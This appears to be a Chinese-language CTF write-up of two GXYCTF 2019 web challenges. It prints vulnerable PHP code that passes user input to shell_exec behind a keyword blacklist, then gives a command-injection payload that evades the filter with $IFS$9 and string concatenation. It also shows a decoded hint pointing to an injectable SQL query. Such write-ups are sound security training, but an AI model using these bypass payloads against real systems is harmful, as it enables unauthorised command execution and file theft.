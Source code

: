 # GXYCTF 2019

## Ping Ping Ping

> *2021/07/02*

### 题目

还是个ping命令的题，直接上`;ls`，回显出两个文件，直接`cat`读取，被拦截了（），试试绕过，发现很多符号也被过滤了，用命令执行的绕过`$IFS$9`来绕过空格，显示出源码，发现`flag`被正则表达式包住了，这里采用拼接的形式进行绕过

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}

?>
```

### payload

```
?ip=;a=g;cat$IFS$9fla$a.php
```

## BabySQli

> *2021/07/13*

### 题目

看题目是个**SQL注入**的题，简单输入，发现回显中有提示信息

```
MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5
// base32
c2VsZWN0ICogZnJvbSB1c2VyIHdoZXJlIHVzZXJuYW1lID0gJyRuYW1lJw==
// base64
select * from user where username = '$name'
```
